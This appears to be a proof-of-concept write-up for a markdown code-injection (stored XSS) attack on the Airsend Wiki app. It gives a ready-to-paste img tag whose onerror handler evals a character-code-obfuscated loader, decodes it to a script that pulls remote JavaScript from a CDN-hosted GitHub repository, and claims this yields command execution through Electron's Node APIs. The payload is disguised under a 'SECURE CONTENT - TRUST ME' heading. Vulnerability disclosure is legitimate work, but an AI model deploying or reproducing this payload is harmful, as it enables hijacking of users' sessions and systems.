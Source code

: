 # Airsend Wiki MD code injection attack


For testing purposes I encoded the url to this script hosted here on a image tag and inserted in a index in Airsend Wiki.

```
## SECURE CONTENT - TRUST ME
<img src=x onerror=eval(String.fromCharCode(99,111,110,115,116,32,106,115,32,61,32,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,32,106,115,46,116,121,112,101,32,61,32,39,116,101,120,116,47,106,97,118,97,115,99,114,105,112,116,39,59,32,106,115,46,115,114,99,32,61,32,39,104,116,116,112,115,58,47,47,99,100,110,46,115,116,97,116,105,99,97,108,108,121,46,105,111,47,103,104,47,109,105,99,104,101,108,100,112,99,97,114,108,111,115,47,97,105,114,115,101,110,100,45,106,115,45,105,110,106,101,99,116,105,111,110,45,112,111,99,47,53,48,98,50,57,99,56,57,98,50,56,55,55,50,53,97,98,53,52,49,55,51,50,101,101,98,54,98,54,53,51,98,51,99,54,50,54,48,50,102,47,105,110,100,101,120,46,106,115,39,59,32,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,106,115,41,59))>
```



## Decoded onerror content
```
// Using a cdn to provide static js from github with the correct MIME type
const js = document.createElement('script'); js.type = 'text/javascript'; js.src = 'https://cdn.statically.io/gh/micheldpcarlos/airsend-js-injection-poc/50b29c89b287725ab541732eeb6b653b3c62602f/index.js'; document.body.appendChild(js);
```


# Result
The script is loaded and the attacker gain control over any instance running on desktop, if on Electron app we gain control over node apis and gain system control, even runnig a terminal command.

Tests using ios mobile didn't show any issue.

<img width="1912" alt="image" src="https://user-images.githubusercontent.com/29731180/155525895-6c7b57c7-7697-4a5a-9819-b7bf8f8e27db.png">







